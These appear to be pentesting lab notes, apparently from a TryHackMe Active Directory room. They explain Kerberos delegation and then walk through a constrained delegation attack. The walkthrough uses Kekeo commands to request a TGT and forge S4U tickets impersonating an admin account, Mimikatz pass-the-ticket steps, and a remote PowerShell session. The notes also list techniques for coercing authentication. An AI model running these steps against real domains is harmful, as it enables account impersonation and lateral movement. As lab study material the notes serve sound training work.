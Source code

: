 --- ---

<h2>General</h2>

Kerberos delegation is a feature that allows a service or user to request a new Kerberos ticket on behalf of another user, allowing the service or user to authenticate as the other user to a different service. This allows the original user to access a service through a trusted intermediary, without having to provide their own credentials. This process is also known as "impersonation" or "double-hop authentication."

Kerberos delegation is useful in scenarios where a user needs to access a service that is not directly reachable, such as when a user needs to access a resource on a remote server through a middle-tier service. By using delegation, the middle-tier service can authenticate to the remote server on behalf of the user, allowing the user to access the remote resource without having to provide their own credentials.


- Kerberos delegation ((Resource-Based)Constrained, Unconstrained)
	- Constrained delegation: A user is granted permission to authenticate to a specific service as another user. The following are examples of services that can be configured for delegation:
		- HTTP - Used for web applications to allow pass-through authentication using AD credentials.  
		- CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.  
		- LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.  
		- HOST - Allows delegation of account for all activities on the host.  
		- MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
	
	- Unconstrained delegation: A user/service is granted permission to authenticate to any service as another user.
	
	- Resource-Based Constrained Delegation: Instead of specifying which object can delegate to which service, the service now specifies which objects can delegate to it. This allows the service owner to control who can access it. Let's say that we have permission to configure RBCD for a service. This means we have the ability to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute for the AD Object. 

- Double Hop issue
	In Kerberos, a "double hop" occurs when a user authenticates to a server, and then the server attempts to authenticate to another server on behalf of the user.
	
	How can we force a connection to a server with unconstrained delegation? I’ll give you a few options:
	
	-   Responder
	-   ARP Poisoning
	-   Rogue DHCPv6
	-   Phish an adin
	-   SpoolSample

TGS = Allows for the "borrowing" of a ticket
TGT = Creation of a ticket

===Accounts that have delegation enabled are of interest to attackers, as they allow the account to authenticate to other services on behalf of other users.===

---

<h2>Constrained Delegation Exploitation</h2>

Powershell (Enumerate available delegations)
```
Get-NetUser -TrustedToAuth
```

Get access to an account that has Constrained or Unconstrained delegation (Credential (plaintext, NTLM, ...))


<h3>Kerberos delegation attack</h3>

We will use a combination of [Kekeo](https://github.com/gentilkiwi/kekeo) and [Mimikatz](https://github.com/gentilkiwi/mimikatz/security).

Powershell (Launch Kekeo)
```
PS C:\> C:\Tools\kekeo\x64\kekeo.exe
```

Powershell (Example: Generate a TGT that can be used to generate tickets for the HTTP and WSMAN services) ---> Delegation on those services
```
kekeo # tgt::ask /user:svcIIS /domain:AD_DOMAIN /password:XXXXXXXX
```
-   user - The user who has the constrained delegation permissions.
-   domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
-   password - The password associated with the svcIIS account.

Powershell (forge TGS requests for the account we want to impersonate)
```
kekeo # tgs::s4u /tgt:TGT_WE_JUST_CREATED /user:ACCOUNT_TO_IMPERSONATE /service:http/SERVER_DOMAINE_NAME
```
-   tgt - We provide the TGT that we generated in the previous step.
-   user - The user we want to impersonate. Since t2_ accounts have administrative access over workstations, it is a safe assumption that t1_ accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.  
-   service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.

Powershell (Import the tickets in mimikats)
```
PS C:\> C:\Tools\kekeo\x64\mimikatz.exe

mimikatz # privilege::debug
mimikatz # kerberos::ptt TICKET_TO_IMPORT(1)
mimikatz # kerberos::ptt TICKET_TO_IMPORT(2)

exit
```

Powershell (Verify if the tickets were imported to the account)
```
klist
```

Create our PSSession on THMSERVER1 (Specific to this example were we have delegation for HTTP and WSMAN)
```
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]:
```